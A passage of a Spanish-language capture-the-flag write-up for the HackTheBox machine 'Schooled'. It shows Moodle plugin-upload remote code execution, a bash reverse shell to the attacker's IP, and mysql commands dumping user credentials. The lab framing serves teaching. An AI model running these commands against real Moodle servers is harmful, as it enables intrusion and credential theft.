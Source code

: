 ![Untitled](/assets/img/Schooled/Pasted image 20240330152518.png)

Actualizando y dirigiéndonos a la sección de Plugins

![Untitled](/assets/img/Schooled/Pasted image 20240318184830.png)

Observamos que la seccion de instalar plugins a sido activada

Subiendo el archivo `rce.zip` disponible en, [GitHub - HoangKien1020/Moodle_RCE](https://github.com/HoangKien1020/Moodle_RCE)

![Untitled](/assets/img/Schooled/Pasted image 20240318185753.png)

Para ejecutar comandos debemos dirigirnos a la ruta `domain/blocks/rce/lang/en/block_rce.php?cmd=id`

```bash
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```

![Untitled](/assets/img/Schooled/Pasted image 20240318185958.png)

Disponemos de `RCE`

## Shell as www

Enviando una reverse shell a nuestra máquina atacante

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.11/443 0>%261"
```

![Untitled](/assets/img/Schooled/Pasted image 20240318190937.png)

Obteniendo:

![Untitled](/assets/img/Schooled/Pasted image 20240318191013.png)

## Shell as jamie

En la ruta `/usr/local/www/apache24/data/moodle` encontramos un archivo `config.php` que contiene credenciales para la base de datos

![Untitled](/assets/img/Schooled/Pasted image 20240318192308.png)

```bash
moodle:PlaybookMaster2020
```

Conectandonos a la DB y enumerandola

```bash
> mysql -umoodle -pPlaybookMaster2020 -e 'show databases'
> mysql -umoodle -pPlaybookMaster2020 -e 'describe mdl_user' moodle 2>/dev/null
> mysql -umoodle -pPlaybookMaster2020 -e 'select username,password,email from mdl_user' moodle 2>/dev/null
```
